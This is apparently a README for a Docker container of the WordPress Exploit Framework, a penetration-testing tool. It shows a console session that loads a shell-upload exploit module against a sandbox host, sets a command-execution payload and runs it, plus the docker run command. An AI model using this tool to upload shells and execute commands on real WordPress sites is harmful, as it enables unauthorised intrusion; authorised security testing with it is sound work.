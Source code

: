 ### Wordpress Exploit Framework Docker Container

==================================================

Wordpress Exploit Framework is Ruby framework for developing and using modules which aid in the penetration testing of WordPress powered websites and systems.

***Usage Examples:***

```
wpxf > use exploit/symposium_shell_upload

[+] Loaded module: #<Wpxf::Exploit::SymposiumShellUpload:0x3916f20>

wpxf [exploit/symposium_shell_upload] > set host wp-sandbox

[+] Set host => wp-sandbox

wpxf [exploit/symposium_shell_upload] > set target_uri /wordpress/

[+] Set target_uri => /wordpress/

wpxf [exploit/symposium_shell_upload] > set payload exec

[+] Loaded payload: #<Wpxf::Payloads::Exec:0x434d078>

wpxf [exploit/symposium_shell_upload] > set cmd echo "Hello, world!"

[+] Set cmd => echo "Hello, world!"

wpxf [exploit/symposium_shell_upload] > run

[-] Preparing payload...
[-] Uploading the payload...
[-] Executing the payload...
[+] Result: Hello, world!
[+] Execution finished successfully
```
# To Run the Container

```
# docker run jsitech/wpexploitframework
```
